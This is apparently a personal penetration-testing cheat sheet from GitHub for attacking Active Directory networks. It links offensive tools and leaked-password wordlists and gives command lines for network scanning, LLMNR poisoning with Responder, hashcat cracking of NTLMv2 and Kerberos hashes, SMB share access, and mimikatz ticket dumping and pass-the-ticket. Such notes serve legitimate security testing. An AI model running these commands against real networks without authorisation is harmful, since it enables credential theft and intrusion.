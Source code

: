 # Gunnajs-Playbook
How to pentest like a Gunnaj

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### BloodHound
https://github.com/fox-it/BloodHound.py
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder
### breach-parse
https://github.com/hmaverickadams/breach-parse
### PRET
https://github.com/RUB-NDS/PRET

## Wordlists bby
### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)


### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021

https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)

# VEV

## Nmap
#### Scan for Version, OS-type and all open ports to a file
```bash
sudo nmap -sV -O -p- IP/mask > file.txt
```
## linWinPwn 
### With AD-user
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password> -o <output_dir>
```
### With Hash
```bash 
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <./krb5cc_ticket> -o <output_dir>
```
### With kerbticket
```bash 
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <LMHASH:NTHASH> -o <output_dir>
```
## BloodHound Dump
```bash
./bloodhound.py -c All -u <AD_user> -p <AD_password> -dc <domain controller domain name> -d <domain name>

```
## ldapdomaindump
```bash
ldapdomaindump -u <domain name\\AD_user> -p <AD_password> -d <domain IP>
```
## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<domain.com>
```
### Unmount share
```bash
sudo umount <./folder>
```
### Search for keywords in files
```bash
grep -i <keyword> *
```
## PRET
### Nmap printers
```bash
nmap -p 9100 IP/mask
```
```bash
pret.py target {ps,pjl,pcl}
```
## Zero Logon
* in the making 
## Responder
### Kickstart responder
```bash
responder -I eth0 -v
```
### Crack NTLMv2 hashes
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <passlist.txt> -o cracked.txt
```
### Crack kerberos hashes
```bash
hashcat64.exe -m 13100 krb5tgs-hashes.txt <passlist.txt> -o cracked.txt
```


## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
